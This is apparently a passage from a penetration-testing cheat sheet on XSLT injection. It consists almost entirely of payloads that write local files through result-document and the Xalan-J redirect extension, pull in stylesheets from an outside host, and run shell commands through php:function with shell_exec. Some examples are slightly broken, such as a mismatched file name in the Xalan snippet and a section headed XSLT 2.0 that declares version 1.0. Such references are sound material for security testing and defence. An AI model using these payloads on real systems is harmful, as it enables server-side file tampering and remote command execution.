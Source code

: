 ### XSLT 2.0

Copy

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:result-document href="local_file.txt">
<xsl:text>Write Local File</xsl:text>
</xsl:result-document>
</xsl:template>
</xsl:stylesheet>
```

### **Xalan-J extension**

Copy

```
<xsl:template match="/">
<redirect:open file="local_file.txt"/>
<redirect:write file="local_file.txt"/> Write Local File</redirect:write>
<redirect:close file="loxal_file.txt"/>
</xsl:template>
```

Other ways to write files in the PDF

## Include external XSL

Copy

```
<xsl:include href="http://extenal.web/external.xsl"/>
```

Copy

```
<?xml version="1.0" ?>
<?xml-stylesheet type="text/xsl" href="http://external.web/ext.xsl"?>
```

## Execute code

### **php:function**

Copy

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('shell_exec','sleep 10')" />
</xsl:template>
</xsl:stylesheet>
```
